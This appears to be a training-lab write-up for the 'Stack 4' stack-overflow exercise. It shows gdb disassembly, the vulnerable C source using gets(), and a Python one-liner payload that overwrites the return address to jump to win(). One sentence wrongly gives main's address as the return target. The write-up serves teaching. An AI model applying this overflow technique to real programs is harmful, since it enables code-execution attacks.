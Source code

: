 # Stack 4

## Problem

Again we check for other possible function calls that might be used in this problem.

```gdb
 info functions
All defined functions:

File stack4/stack4.c:
int main(int, char **);
void win(void);
```

We then examine both the main and win function.

```gdb
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```

From the code we can guess the buffer is at `esp+0x10` to `esp+0x50` a 64char buffer. We can also see that there is a `gets` call before the function terminates. There is no call to any other function in main. We want to try to force main to call `win` instead. We could do so by having the stack overflow past ebp of main. Then we would have to also replace the ebp of the caller to main and the return address afterwards, where the return address should be `0x08048408`.
By computing we aim to find the esp and overflow past the ebp by a word to first remove the previous ebp in call and then to inject the address of `win`.

## Idea and Attack process

```gdb
b *0x0804840e
r
info reg
>>>esp            0xbffffc10       0xbffffc10
>>>ebp            0xbffffc68       0xbffffc68
```

From here we will reverse engineer the location of the stack to be `0xbffffc20` and we will have to fill till `0xbffffc68 + 4` that gives us a total of 76char before injecting our `win` location

```shell
python -c 'print "1"*76 + "\xf4\x83\x04\x08"' | ./stack4
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
